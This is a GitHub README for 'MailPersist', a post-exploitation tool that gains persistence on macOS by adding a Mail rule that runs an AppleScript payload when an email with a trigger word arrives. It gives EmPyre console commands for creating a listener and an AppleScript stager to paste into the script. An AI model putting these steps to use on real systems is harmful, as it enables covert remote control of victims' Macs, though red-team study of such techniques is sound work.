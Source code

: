 # MailPersist - Post-exploitation script for OS X persistance 

## ABOUT:
This script creates a new rule in the MacOS Mail application to automatically trigger an appleScript payload when an email is recieved using a trigger word in the subject of the email.

## INSTALL:

All dependancies are met on a default installation of OS X.  With that said, you will likely want to use EmPyre to create your appleScript payload. 
https://github.com/adaptivethreat/EmPyre

## USAGE:
Creating an appleScript payload with Empyre:
```
(EmPyre) > listeners
(EmPyre: listeners) > set Name mylistener
(EmPyre: listeners) > execute
(EmPyre: listeners) > usestager applescript mylistener
(EmPyre: stager/applescript) > execute
```
Open mail.py and paste the output in the specified area.  Modify the trigger word as you see fit.  
